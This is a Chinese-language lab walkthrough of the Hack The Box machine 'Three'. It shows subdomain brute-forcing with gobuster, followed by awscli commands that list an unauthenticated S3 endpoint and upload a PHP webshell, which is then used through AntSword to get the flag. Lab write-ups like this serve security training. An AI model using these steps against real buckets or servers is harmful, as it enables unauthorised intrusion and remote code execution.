# 7x13 HTB系列——[Three]aws s3子域名接管漏洞

## 一、信息收集

1. 启动靶机，获取目标IP

   

2. 扫描端口，发现开放有22、80端口

   

3. 识别80端口的web服务信息，发现web组件为Apache 2.4.29，系统为Ubuntu

   

   

   

4. 在网页CONTACT中发现存在一个邮箱mail@thetoppers.htb，猜测thetoppers.htb可能时目标网站的域名，修改kali的host文件，将thetoppers.htb强制解析IP为10.129.214.172，然后访问域名

   

5. 页面没有什么东西，利用gobuster爆破子域名发现存在一个s3的子域名

   ``` shell
   gobuster vhost -w /home/kali/SafeTools/OneForAll/data/subnames_next.txt -u http://thetoppers.htb --append-domain=true
   #vhost 虚拟机主机模式
   # -w 指定字典
   # -u 目标域名
   # --append-domain 子域名爆破，默认为false，需要改为true，否则不会爆破子域名
   ```

   

6. 修改host文件绑定s3子域名解析，访问s3子域名，发现页面显示{"status": "running"}

   

7. 谷歌搜索s3 subdomain status running，发现关键信息Amazon S3 console，继续搜索AWS S3子域名漏洞，发现存在AWS S3子域名接管漏洞的信息

   
   

   

## 二、getshell

1. 使用aws s3子域名接管漏洞的工具awscli进行测试

   - 安装awscli

     ```shell 
     sudo apt -y install awscli
     ```

   - 配置awscli，提示的key、name这些随便填

     ```shell
     aws configure
     ```

     

   - 测试aws s3，发现能够执行ls命令探测服务器上的资源文件，网站编程语言为php

     ```shell
     aws --endpoint=http://s3.thetoppers.htb s3 ls
     aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
     ```

     

2. 尝试写入shell

   ``` shell
   aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
   ```

   

3. 成功写入shell

   

4. 直接写入一个webshell

   

5. 用蚁剑连接，成功获取到flag
   